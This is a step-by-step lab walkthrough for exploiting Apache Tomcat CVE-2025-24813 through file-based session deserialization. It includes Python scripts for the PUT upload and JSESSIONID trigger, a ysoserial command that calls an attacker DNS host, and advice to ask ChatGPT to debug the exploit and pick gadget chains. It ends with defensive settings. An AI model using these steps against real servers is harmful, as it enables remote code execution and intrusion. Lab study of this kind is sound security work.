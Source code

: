 # 🧨 Exploiting Apache Tomcat (CVE-2025-24813) – Path Equivalence & File-Based Deserialization

> A step-by-step walkthrough of exploiting misconfigured Tomcat servers via a deserialization flaw caused by unsafe default settings.

---

## 📌 Overview

* **Name**: Apache Tomcat Path Equivalence Deserialization RCE
* **CVE**: [CVE-2025-24813](https://www.exploit-db.com/exploits/52134)
* **Author**: Al Baradi Joy
* **Date**: April 2025
* **Vulnerability Type**: Remote Code Execution (via unsafe deserialization)
* **Category**: Path Equivalence, Deserialization Gadget Chains

---

## 🧪 Vulnerability Summary

The attack leverages **two misconfigurations** in Apache Tomcat:

1. `DefaultServlet` is configured with `readonly=false`, allowing **file uploads** via `PUT` requests.
2. Tomcat is configured to use **file-based session persistence** at:

   ```
   $CATALINA_BASE/work/Catalina/localhost/ROOT/
   ```

By combining these, you can upload a malicious `.session` file and **trigger its deserialization** using a specially crafted `JSESSIONID`.

---

## ⚙️ Lab Setup (Vulhub or Manual)

### ✅ Step 1: Start the Vulhub Lab

```bash
cd ~/labs/vulhub/tomcat/CVE-2025-24813
docker compose up -d
```

### ✅ Step 2: Confirm It's Running

```bash
docker compose ps
```

Output should show:

```
0.0.0.0:8080->8080/tcp
```

Open [http://localhost:8080](http://localhost:8080) in your browser — you should see a default Tomcat welcome page or `/examples`.

---

## 📖 Step 3: Understand the Vulnerable Configuration

### Key lines from `web.xml` and `context.xml`:

```xml
<init-param>
  <param-name>readonly</param-name>
  <param-value>false</param-value>
</init-param>
```

```xml
<Manager className="org.apache.catalina.session.PersistentManager">
  <Store className="org.apache.catalina.session.FileStore"/>
</Manager>
```

> ❗ This combo means: **you can write to disk**, and **Tomcat will deserialize files** using filenames derived from session IDs.

---

## 💣 Step 4: Exploit in Two Stages

---

### ✅ Part A: Upload the Deserialization Payload

Craft a **partial PUT** request with a filename that maps to a `.session` file on disk.

> Tomcat maps `/` to `.` and stores under:
> `$CATALINA_BASE/work/Catalina/localhost/ROOT/.deserialize.session`

### 🛠️ Python Script (`upload_payload.py`):

```python
import requests

url = "http://localhost:8080/deserialize/session"
headers = {
    "Content-Range": "bytes 0-5/10",
    "Content-Length": "20",
}
payload = b"deserialize content"  # Replace with serialized object in real attack

response = requests.put(url, headers=headers, data=payload)
print(f"[+] Status: {response.status_code}")
```

---

### ✅ Part B: Trigger Deserialization

Send a request with a forged `JSESSIONID` matching the name `.deserialize`.

### 🛠️ Python Script (`trigger_payload.py`):

```python
import requests

url = "http://localhost:8080/"
cookies = {"JSESSIONID": ".deserialize"}

response = requests.get(url, cookies=cookies)
print(f"[+] Status: {response.status_code}")
print("[+] Trigger request sent. Check DNS or command execution channel.")
```

---

## 🧪 Step 5: Observing the Impact

In a real-world attack:

* The payload would be a **gadget chain** (e.g., URLDNS, CommonsCollections)
* A successful attack could:

  * Send DNS requests (OOB detection)
  * Execute commands
  * Open reverse shells

> ✅ With URLDNS: you'd see a DNS lookup to your listener domain
> ✅ With ysoserial: you could pop a shell via RCE

---

## 🧠 Step 6: Understanding Why It Works

* Tomcat stores session data in files named after `JSESSIONID`
* You can upload arbitrary files via `PUT`
* If you name your file `deserialize/session`, it maps to `.deserialize.session` on disk
* When you send `JSESSIONID=.deserialize`, Tomcat loads `.deserialize.session` and **deserializes it**

---

## 🧰 Optional: Build a Real Gadget Payload

### 🔧 Tool: [ysoserial](https://github.com/frohoff/ysoserial)

```bash
java -jar ysoserial.jar URLDNS http://attacker.dnslog.cn > payload.session
```

### Upload the actual file (instead of dummy string):

```python
with open("payload.session", "rb") as f:
    content = f.read()
```

And send it using the previous `PUT` method.

---

## 🧪 Use ChatGPT to Iterate

If the exploit doesn’t trigger:

* Ask:

  > “I uploaded a .session file using PUT and sent a forged JSESSIONID, but nothing happened. What should I check?”

ChatGPT can help you:

* Debug Content-Range usage
* Validate file path mappings
* Rebuild serialized objects correctly
* Find correct gadget chains for your target

---

## 🔐 Defending Against It

* **Never set `readonly=false`** in DefaultServlet in production
* **Disable file-based session persistence**, use memory-based sessions instead
* Sanitize upload paths
* Block `PUT` requests on web roots
* Use a web application firewall (WAF)

---

## ✅ Final Exploitation Recap

| Step | Description                              |
| ---- | ---------------------------------------- |
| 1    | Launch vulnerable Tomcat container       |
| 2    | Confirm port 8080 is up                  |
| 3    | Read README or ExploitDB notes           |
| 4    | Upload `.session` file via PUT           |
| 5    | Trigger deserialization via `JSESSIONID` |
| 6    | Observe command or DNS result            |
| 7    | Expand using ysoserial gadget            |
| 8    | Iterate with ChatGPT if blocked          |

---
